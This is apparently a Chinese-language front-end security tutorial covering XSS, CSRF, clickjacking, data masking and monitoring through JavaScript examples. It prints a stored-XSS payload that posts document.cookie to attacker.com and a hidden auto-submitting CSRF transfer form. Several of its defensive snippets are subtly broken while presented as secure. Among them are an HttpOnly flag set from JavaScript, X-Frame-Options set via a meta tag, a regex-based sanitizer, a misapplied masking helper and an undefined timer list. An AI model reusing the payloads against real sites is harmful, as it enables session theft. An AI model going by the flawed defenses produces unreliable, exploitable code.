

# 前端安全(XSS-CSRF)

## 前端安全概述

### 安全威胁类型


### 安全防护策略
| 威胁类型 | 防护措施 | 实现方式 |
|----------|----------|----------|
| XSS | 输入验证、输出编码 | 内容安全策略、输入过滤 |
| CSRF | 令牌验证、同源检查 | CSRF Token、SameSite Cookie |
| 点击劫持 | 框架保护 | X-Frame-Options、CSP |
| 数据泄露 | 数据脱敏、访问控制 | 权限验证、数据加密 |

## XSS攻击防护

### XSS攻击类型
```javascript
// 1. 存储型XSS - 恶意脚本存储在服务器
// 攻击示例
const maliciousScript = `
  <script>
    // 窃取用户Cookie
    fetch('http://attacker.com/steal', {
      method: 'POST',
      body: document.cookie
    });
  </script>
`;

// 2. 反射型XSS - 恶意脚本通过URL参数反射
// 攻击URL: http://example.com/search?q=<script>alert('XSS')</script>
const searchQuery = new URLSearchParams(window.location.search).get('q');
document.getElementById('results').innerHTML = searchQuery; // 危险！

// 3. DOM型XSS - 通过DOM操作注入恶意脚本
const userInput = document.getElementById('input').value;
document.getElementById('output').innerHTML = userInput; // 危险！
```

### XSS防护措施
```javascript
// 1. 输入验证和过滤
class XSSProtection {
  // HTML编码
  static htmlEncode(str) {
    const div = document.createElement('div');
    div.textContent = str;
    return div.innerHTML;
  }
  
  // 属性编码
  static attributeEncode(str) {
    return str
      .replace(/&/g, '&amp;')
      .replace(/"/g, '&quot;')
      .replace(/'/g, '&#x27;')
      .replace(/</g, '&lt;')
      .replace(/>/g, '&gt;');
  }
  
  // URL编码
  static urlEncode(str) {
    return encodeURIComponent(str);
  }
  
  // 输入过滤
  static sanitizeInput(input) {
    // 移除危险标签
    const dangerousTags = /<script\b[^<]*(?:(?!<\/script>)<[^<]*)*<\/script>/gi;
    const dangerousAttributes = /on\w+\s*=/gi;
    
    return input
      .replace(dangerousTags, '')
      .replace(dangerousAttributes, '');
  }
  
  // 白名单过滤
  static whitelistFilter(input, allowedTags = ['p', 'br', 'strong', 'em']) {
    const temp = document.createElement('div');
    temp.innerHTML = input;
    
    const elements = temp.querySelectorAll('*');
    elements.forEach(element => {
      if (!allowedTags.includes(element.tagName.toLowerCase())) {
        element.outerHTML = element.textContent;
      }
    });
    
    return temp.innerHTML;
  }
}

// 2. 安全的内容插入
class SafeContentRenderer {
  // 安全的文本插入
  static renderText(element, text) {
    element.textContent = text; // 使用textContent而不是innerHTML
  }
  
  // 安全的HTML插入
  static renderHTML(element, html) {
    const sanitized = XSSProtection.sanitizeInput(html);
    element.innerHTML = sanitized;
  }
  
  // 安全的属性设置
  static setAttribute(element, name, value) {
    const encodedValue = XSSProtection.attributeEncode(value);
    element.setAttribute(name, encodedValue);
  }
  
  // 安全的URL设置
  static setURL(element, url) {
    try {
      const urlObj = new URL(url);
      if (['http:', 'https:'].includes(urlObj.protocol)) {
        element.href = url;
      } else {
        throw new Error('Invalid protocol');
      }
    } catch (error) {
      console.error('Invalid URL:', error);
    }
  }
}

// 3. 使用示例
const userInput = '<script>alert("XSS")</script>';
const outputElement = document.getElementById('output');

// 安全的方式
SafeContentRenderer.renderText(outputElement, userInput);

// 或者使用编码
outputElement.innerHTML = XSSProtection.htmlEncode(userInput);
```

### 内容安全策略(CSP)
```javascript
// 1. CSP配置
const cspConfig = {
  'default-src': ["'self'"],
  'script-src': ["'self'", "'unsafe-inline'", "https://trusted-cdn.com"],
  'style-src': ["'self'", "'unsafe-inline'"],
  'img-src': ["'self'", "data:", "https:"],
  'connect-src': ["'self'", "https://api.example.com"],
  'font-src': ["'self'", "https://fonts.gstatic.com"],
  'object-src': ["'none'"],
  'media-src': ["'self'"],
  'frame-src': ["'none'"],
  'base-uri': ["'self'"],
  'form-action': ["'self'"]
};

// 2. 动态设置CSP
function setCSP(config) {
  const cspHeader = Object.entries(config)
    .map(([directive, sources]) => `${directive} ${sources.join(' ')}`)
    .join('; ');
  
  // 设置meta标签
  const meta = document.createElement('meta');
  meta.httpEquiv = 'Content-Security-Policy';
  meta.content = cspHeader;
  document.head.appendChild(meta);
}

// 3. 非内联脚本处理
// 使用nonce
const nonce = generateNonce();
const script = document.createElement('script');
script.nonce = nonce;
script.textContent = 'console.log("Safe script");';
document.head.appendChild(script);

// 4. 内联样式处理
// 使用hash
const style = document.createElement('style');
style.textContent = 'body { color: red; }';
document.head.appendChild(style);
```

## CSRF攻击防护

### CSRF攻击原理
```javascript
// 1. CSRF攻击示例
// 恶意网站中的表单
const maliciousForm = `
  <form action="http://bank.com/transfer" method="POST" style="display:none">
    <input name="to" value="attacker-account">
    <input name="amount" value="1000">
  </form>
  <script>document.forms[0].submit();</script>
`;

// 2. 攻击场景
// 用户登录银行网站后，访问恶意网站
// 恶意网站自动提交转账请求
// 浏览器自动携带用户的认证Cookie
```

### CSRF防护措施
```javascript
// 1. CSRF Token实现
class CSRFProtection {
  constructor() {
    this.token = this.generateToken();
    this.setupTokenInjection();
  }
  
  // 生成CSRF Token
  generateToken() {
    const array = new Uint8Array(32);
    crypto.getRandomValues(array);
    return Array.from(array, byte => byte.toString(16).padStart(2, '0')).join('');
  }
  
  // 设置Token到Cookie
  setTokenCookie() {
    document.cookie = `csrf_token=${this.token}; SameSite=Strict; Secure; HttpOnly`;
  }
  
  // 设置Token到Meta标签
  setTokenMeta() {
    const meta = document.createElement('meta');
    meta.name = 'csrf-token';
    meta.content = this.token;
    document.head.appendChild(meta);
  }
  
  // 自动注入Token到表单
  setupTokenInjection() {
    document.addEventListener('DOMContentLoaded', () => {
      const forms = document.querySelectorAll('form[method="post"]');
      forms.forEach(form => {
        const tokenInput = document.createElement('input');
        tokenInput.type = 'hidden';
        tokenInput.name = 'csrf_token';
        tokenInput.value = this.token;
        form.appendChild(tokenInput);
      });
    });
  }
  
  // 验证Token
  static validateToken(requestToken, cookieToken) {
    return requestToken && cookieToken && requestToken === cookieToken;
  }
}

// 2. SameSite Cookie设置
class SecureCookie {
  static setSecureCookie(name, value, options = {}) {
    const defaults = {
      'SameSite': 'Strict',
      'Secure': true,
      'HttpOnly': true,
      'Path': '/'
    };
    
    const config = { ...defaults, ...options };
    const cookieString = Object.entries(config)
      .map(([key, val]) => `${key}=${val}`)
      .join('; ');
    
    document.cookie = `${name}=${value}; ${cookieString}`;
  }
  
  static getCookie(name) {
    const value = `; ${document.cookie}`;
    const parts = value.split(`; ${name}=`);
    if (parts.length === 2) return parts.pop().split(';').shift();
  }
}

// 3. 请求头验证
class RequestValidator {
  static validateRequest(request) {
    // 检查Referer头
    const referer = request.headers.get('Referer');
    const origin = request.headers.get('Origin');
    
    if (referer && !referer.startsWith(window.location.origin)) {
      throw new Error('Invalid referer');
    }
    
    if (origin && origin !== window.location.origin) {
      throw new Error('Invalid origin');
    }
    
    return true;
  }
  
  static addSecurityHeaders(request) {
    // 添加CSRF Token
    const token = document.querySelector('meta[name="csrf-token"]')?.content;
    if (token) {
      request.headers.set('X-CSRF-Token', token);
    }
    
    // 添加其他安全头
    request.headers.set('X-Requested-With', 'XMLHttpRequest');
    request.headers.set('X-Content-Type-Options', 'nosniff');
    
    return request;
  }
}

// 4. 使用示例
const csrfProtection = new CSRFProtection();

// 设置安全Cookie
SecureCookie.setSecureCookie('session_id', 'abc123', {
  'Max-Age': 3600,
  'SameSite': 'Strict'
});

// 验证请求
fetch('/api/data', {
  method: 'POST',
  headers: {
    'Content-Type': 'application/json',
    'X-CSRF-Token': csrfProtection.token
  },
  body: JSON.stringify({ data: 'test' })
});
```

## 其他安全防护

### 点击劫持防护
```javascript
// 1. X-Frame-Options设置
class ClickjackingProtection {
  static setFrameOptions() {
    // 通过meta标签设置
    const meta = document.createElement('meta');
    meta.httpEquiv = 'X-Frame-Options';
    meta.content = 'DENY'; // 或 'SAMEORIGIN'
    document.head.appendChild(meta);
  }
  
  static detectFraming() {
    // 检测是否被嵌入iframe
    if (window.top !== window.self) {
      // 被嵌入iframe，执行防护措施
      this.handleFraming();
    }
  }
  
  static handleFraming() {
    // 跳转到顶层窗口
    window.top.location = window.self.location;
    
    // 或者显示警告
    document.body.innerHTML = `
      <div style="text-align: center; padding: 50px;">
        <h1>安全警告</h1>
        <p>此页面不应在框架中显示</p>
        <button onclick="window.top.location = window.self.location">
          在新窗口中打开
        </button>
      </div>
    `;
  }
}

// 2. 使用示例
ClickjackingProtection.setFrameOptions();
ClickjackingProtection.detectFraming();
```

### 数据泄露防护
```javascript
// 1. 敏感数据脱敏
class DataMasking {
  static maskEmail(email) {
    const [local, domain] = email.split('@');
    const maskedLocal = local.charAt(0) + '*'.repeat(local.length - 2) + local.charAt(local.length - 1);
    return `${maskedLocal}@${domain}`;
  }
  
  static maskPhone(phone) {
    return phone.replace(/(\d{3})\d{4}(\d{4})/, '$1****$2');
  }
  
  static maskCreditCard(cardNumber) {
    return cardNumber.replace(/\d(?=\d{4})/g, '*');
  }
  
  static maskSensitiveData(data, fields) {
    const masked = { ...data };
    fields.forEach(field => {
      if (masked[field]) {
        masked[field] = this.maskEmail(masked[field]);
      }
    });
    return masked;
  }
}

// 2. 安全的数据存储
class SecureStorage {
  static setItem(key, value) {
    try {
      const encrypted = this.encrypt(value);
      localStorage.setItem(key, encrypted);
    } catch (error) {
      console.error('Storage error:', error);
    }
  }
  
  static getItem(key) {
    try {
      const encrypted = localStorage.getItem(key);
      return encrypted ? this.decrypt(encrypted) : null;
    } catch (error) {
      console.error('Storage error:', error);
      return null;
    }
  }
  
  static removeItem(key) {
    localStorage.removeItem(key);
  }
  
  static encrypt(data) {
    // 简单的加密实现（实际项目中应使用更安全的加密方法）
    return btoa(JSON.stringify(data));
  }
  
  static decrypt(encryptedData) {
    try {
      return JSON.parse(atob(encryptedData));
    } catch (error) {
      return null;
    }
  }
}

// 3. 使用示例
const userData = {
  email: 'user@example.com',
  phone: '13812345678',
  creditCard: '1234567890123456'
};

// 脱敏显示
const maskedData = DataMasking.maskSensitiveData(userData, ['email', 'phone']);
console.log(maskedData);

// 安全存储
SecureStorage.setItem('user_data', userData);
const storedData = SecureStorage.getItem('user_data');
```

### 安全事件监控
```javascript
// 1. 安全事件监听
class SecurityMonitor {
  constructor() {
    this.setupEventListeners();
  }
  
  setupEventListeners() {
    // 监听页面可见性变化
    document.addEventListener('visibilitychange', () => {
      if (document.hidden) {
        this.handlePageHidden();
      } else {
        this.handlePageVisible();
      }
    });
    
    // 监听窗口焦点变化
    window.addEventListener('blur', () => {
      this.handleWindowBlur();
    });
    
    // 监听异常事件
    window.addEventListener('error', (event) => {
      this.handleError(event);
    });
    
    // 监听未处理的Promise拒绝
    window.addEventListener('unhandledrejection', (event) => {
      this.handleUnhandledRejection(event);
    });
  }
  
  handlePageHidden() {
    // 页面隐藏时的安全措施
    this.clearSensitiveData();
    this.pauseTimers();
  }
  
  handlePageVisible() {
    // 页面可见时的安全措施
    this.resumeTimers();
    this.validateSession();
  }
  
  handleWindowBlur() {
    // 窗口失去焦点时的安全措施
    this.logSecurityEvent('window_blur');
  }
  
  handleError(event) {
    // 错误处理
    this.logSecurityEvent('javascript_error', {
      message: event.message,
      filename: event.filename,
      lineno: event.lineno,
      colno: event.colno
    });
  }
  
  handleUnhandledRejection(event) {
    // 未处理的Promise拒绝
    this.logSecurityEvent('unhandled_rejection', {
      reason: event.reason
    });
  }
  
  clearSensitiveData() {
    // 清除敏感数据
    SecureStorage.removeItem('sensitive_data');
  }
  
  pauseTimers() {
    // 暂停定时器
    this.timers.forEach(timer => clearInterval(timer));
  }
  
  resumeTimers() {
    // 恢复定时器
    this.timers.forEach(timer => setInterval(timer.fn, timer.interval));
  }
  
  validateSession() {
    // 验证会话有效性
    fetch('/api/validate-session')
      .then(response => {
        if (!response.ok) {
          this.handleSessionInvalid();
        }
      })
      .catch(error => {
        this.logSecurityEvent('session_validation_error', { error });
      });
  }
  
  handleSessionInvalid() {
    // 处理无效会话
    this.logSecurityEvent('session_invalid');
    window.location.href = '/login';
  }
  
  logSecurityEvent(eventType, data = {}) {
    const event = {
      type: eventType,
      timestamp: new Date().toISOString(),
      userAgent: navigator.userAgent,
      url: window.location.href,
      data
    };
    
    // 发送到安全监控服务
    fetch('/api/security-events', {
      method: 'POST',
      headers: {
        'Content-Type': 'application/json'
      },
      body: JSON.stringify(event)
    }).catch(error => {
      console.error('Failed to log security event:', error);
    });
  }
}

// 2. 使用示例
const securityMonitor = new SecurityMonitor();
```

## 相关链接
- [[04-高级精通层/04-安全与测试/02-代码安全最佳实践]] - 代码安全最佳实践
- [[04-高级精通层/04-安全与测试/03-单元测试(Jest)]] - 单元测试
- [[04-高级精通层/04-安全与测试/04-集成测试]] - 集成测试
- [[04-高级精通层/04-安全与测试/05-E2E测试(Cypress)]] - E2E测试
